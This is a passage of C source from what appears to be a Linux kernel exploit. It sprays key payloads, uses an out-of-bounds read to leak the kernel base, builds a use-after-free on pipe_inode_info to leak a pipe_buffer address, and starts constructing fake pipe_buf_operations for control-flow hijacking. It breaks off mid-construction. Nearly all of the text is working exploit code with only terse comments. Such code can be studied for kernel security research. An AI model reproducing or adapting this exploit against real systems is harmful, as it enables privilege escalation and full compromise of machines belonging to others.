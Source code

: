 ```c
    /* check for oob-read and leak kernel base */
    puts("[*] try to make an OOB-read...");

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        if (key_read(key_id[i], buf, 0x4000) > PIPE_INODE_INFO_SZ) {
            printf("[+] found victim key at idx: %d\n", i);
            victim_key_idx = i;
        } else {
            key_revoke(key_id[i]);
        }
    }

    if (victim_key_idx == -1) {
        err_exit("FAILED at corrupt user_key_payload!");
    }

    kernel_offset = -1;
    for (int i = 0; i < 0x2000 / 8; i++) {
        if (buf[i] > kernel_base && (buf[i] & 0xfff) == 0x210) {
            kernel_offset = buf[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        err_exit("FAILED to leak kernel addr!");
    }

    printf("\033[34m\033[1m[*] Kernel offset: \033[0m0x%lx\n", kernel_offset);
    printf("\033[32m\033[1m[+] Kernel base: \033[0m0x%lx\n", kernel_base);

    /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
    puts("[*] construct UAF on pipe_inode_info...");

    /* 0->1->..., the 1 will be the payload object */
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    alloc(1, PIPE_INODE_INFO_SZ, buf);
    del(1);
    del(0);

    pipe_key_id = key_alloc("arttnba3pipe", buf, PIPE_INODE_INFO_SZ - 0x18);
    del(1);

    /* this object is for the pipe buffer */
    alloc(0, PIPE_BUFFER_SZ, buf);
    del(0);

    pipe(pipe_fd);

    /* note that the user_key_payload->datalen is 0xFFFF now */
    retval = key_read(pipe_key_id, buf, 0xffff);
    pipe_buffer_addr = buf[16]; /* pipe_inode_info->bufs */
    printf("\033[32m\033[1m[+] Got pipe_buffer: \033[0m0x%lx\n", 
            pipe_buffer_addr);

    /* construct fake pipe_buf_operations */
    memset(buf, 'A', sizeof(buf));

    buf[0] = *(size_t*) "arttnba3";
    buf[1] = *(size_t*) "arttnba3";
    buf[2] = pipe_buffer_addr + 0x18;  /* pipe_buffer->ops */
    /* after release(), we got back here */
```